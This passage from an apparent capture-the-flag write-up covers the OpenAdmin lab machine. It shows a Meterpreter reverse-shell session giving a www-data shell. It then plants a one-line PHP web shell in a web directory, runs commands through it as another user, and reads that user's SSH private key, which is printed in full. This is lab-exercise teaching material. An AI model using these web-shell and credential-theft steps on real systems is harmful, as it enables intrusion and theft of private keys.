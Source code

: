 ```bash
[*] Sending stage (3012516 bytes) to 10.10.10.171
[*] Meterpreter session 1 opened (10.10.14.9:4444 -> 10.10.10.171:47948) at 2020-06-25 15:14:05 +0200
[*] Command Stager progress - 100.00% done (808/808 bytes)

meterpreter > shell
Process 8821 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Joanna's SSH key without cracking the internal password hash

```bash
jimmy@openadmin:/var/www/internal$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/shell.php?cmd=id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

`Jimmy` has write access in `/var/www/internal` and this is running as the user `Joanna`.

```bash
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/shell.php?cmd=cat+/home/joanna/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

We can use this to read `id_rsa` instead of logging in via the internal website.
